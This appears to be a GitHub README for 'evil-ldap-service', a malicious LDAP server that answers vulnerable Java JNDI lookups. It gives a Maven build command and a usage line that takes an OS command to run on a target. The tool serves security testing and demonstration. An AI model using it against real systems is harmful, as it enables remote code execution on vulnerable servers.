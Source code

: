 # evil-ldap-service
Simplified LDAP service to answer a vulnerable Java JNDI lookup. 

## What's simulated 

![alt text](https://github.com/sciccone/evil-ldap-service/blob/master/doc/evil-ldap-service.png)

## Compile

`mvn clean package`

## Usage

`java -jar target/evil-ldap-service-jar-with-dependencies.jar -l <LISTEN_HOST> -lp <LDAP_PORT> -hp <HTTP_PORT> -c <OS_COMMAND>`
